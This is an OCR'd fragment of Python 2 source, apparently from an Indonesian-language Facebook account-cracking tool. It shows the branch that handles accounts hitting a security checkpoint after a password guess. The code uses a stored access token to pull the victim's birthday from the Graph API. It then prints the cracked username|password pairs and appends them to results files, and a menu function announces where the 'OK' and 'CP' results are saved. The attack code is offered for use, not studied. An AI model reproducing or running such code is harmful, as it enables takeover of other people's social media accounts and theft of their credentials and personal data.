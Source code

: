             elif "checkpoint" in ses.cookies.get_dict().keys():

                try:

                    kontol = open('.memek.txt').read()

                    cp_ttl = requests.get('https://graph.facebook.com/%s?fields=birthday&access_token=%s'%(user,kontol)).json()['birthday']

                    month, day, year = cp_ttl.split('/')

                    month = bulan_ttl[month]

                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)

                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)

                    cp.append(wrt)

                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                    break

                except (KeyError, IOError):

                    month = ''

                    day   = ''

                    year  = ''

                except:

                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)

                wrt = ' [×] %s|%s' % (user,pw)

                cp.append(wrt)

                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            else:

                continue

        loop += 1

    def __pler__(self):

        yan = raw_input('\n [*] method : ')

        if yan == '':

            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);self.__pler__()

        elif yan in ('1', '01'):

            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
